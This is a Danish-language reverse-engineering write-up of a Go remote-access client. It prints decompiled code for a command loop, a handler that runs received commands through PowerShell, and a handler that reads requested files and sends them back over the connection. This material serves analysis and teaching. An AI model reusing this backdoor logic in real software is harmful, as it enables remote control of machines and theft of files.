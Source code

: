 Efter denne kode støder vi ind i `main.main.func1` - Go kan til tider godt lide at splitte funktioner op i underdele, tit bare små auto-genererede bidder, der fx lukker en channel eller connection, stopper en time ticker e.l. - nogle mere relevante end andre.
Klikker man sig ind på denne, ser den dog længere og mere relevant ud end den slags små kodebidder, og den virker som en fast del af `main`-funktionen, der af en eller anden grund er splittet ud i sin egen funktion automatisk - vi fortsætter derfor med denne:

```go
do {
    action := main.receive(conn)
    log.(*Logger).output("Action: %s\n", action)
    if action == "cmd" {
        main.do_cmd(conn)
    } else if action == "kill" {
        main.do_kill(conn)
    } else if action == "upload" {
        main.do_upload(conn)
    } else if action == "download" {
        main.do_download(conn)
    } else {
        log.(*Logger).output("Invalid action")
    }
    log.(*Logger).output()
} while ( true )
```

Her har vi altså vores main loop, der tager imod action requests og kalder tilsvarende handlers. Lad os tage et kig på den første:

```go
func main.do_cmd(conn) {
    cmd := main.receive(conn)
    log.(*Logger).output("Command received: %s\n", cmd)

    os/exec.Command("powershell", "-NoProfile", cmd)
    result, err := os/exec.(*Cmd).CombinedOutput()
    if err != nil {
        log.(*Logger).output("Command execution error: %s\n", err)
        main.send(conn, 1)
        main.send(conn, err)
    } else {
        log.(*Logger).output("Command output: %s\n", result)
        main.send(conn, 0)
        main.send(conn, result)
    }
}
```

Denne kode er ret ligetil, klienten modtager en kommando, kører den med `powershell`, og både logger og sender svaret tilbage.
Den sender umiddelbart først en statuskode - 0 ved success, 1 ved fejl. De resterende actions er også nogenlunde ligetil:

```go
func main.do_upload(conn) {
    path := main.receive(conn)
    content, err := main.readFile(path)

    if err != nil {
        log.(*Logger).output("File error: %s\n", err)
        main.send(conn, 1)
        main.send(conn, err)
    } else {
        log.(*Logger).output("Uploading file %s...\n", path)
        main.send(conn, 0)
        main.send(conn, content)
    }
```